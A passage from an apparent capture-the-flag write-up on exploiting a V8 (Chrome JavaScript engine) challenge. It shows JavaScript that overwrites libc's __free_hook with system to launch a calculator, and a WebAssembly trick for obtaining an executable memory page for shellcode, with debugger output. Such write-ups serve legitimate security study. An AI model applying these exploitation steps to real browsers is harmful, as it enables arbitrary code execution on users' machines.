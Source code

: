 With base `0x7ffff7005000`, the offsets are easy to calculate:

```javascript
// system and free hook offsets
let system = libc_base + 0x4f420n;
let free_hook = libc_base + 0x3ed8e8n;
```

And we can overwrite free hook and pop a calculator:

```javascript
console.log("[+] Exploiting...");
arb_write(free_hook, system);
console.log("xcalc");
```

It does, in fact, work!

<details><summary>Full Exploit</summary></details>

Unfortunately, as [Faith recognised in their article](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/#exploitation-technique-2-use-webassembly-to-create-an-rwx-page), when running the exploit on the Chrome binary itself (the actual browser provided with the challenge!) the `__free_hook` route does not work. It's likely due to a different memory layout as a result of different processes running, so the leaks are not the same and the offsets are broken. Debugging would be nice, but it's very hard with the given binary. Instead we can use another classic approach and abuse WebAssembly to create a RWX page for our shellcode.

### Abusing WebAssembly

This approach is even better because it will (theoretically) work on any operating system, not be reliant on the presence of libc and `__free_hook` as it allows us to run our own shellcode. I'm gonna save this in `exploit2.js`.

If we create a function in WebAssembly, it will create a RWX page that we can leak. The WASM code itself is not important, we only care about the RWX page. To that effect I'll use the WASM used by Faith, because the website `wasmfiddle` has been closed down and I cannot for the life of me find an alternative. Let me know if you do.

```javascript
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;
```

We can see that this creates an RWX page:

```javascript
gef➤  vmmap
[...]
0x000035d2131ff000 0x000035d21b141000 0x0000000000000000 --- 
0x0000396a8d0b5000 0x0000396a8d0b6000 0x0000000000000000 rwx 
0x0000396a8d0b6000 0x0000396acd0b5000 0x0000000000000000 ---
[...]
```
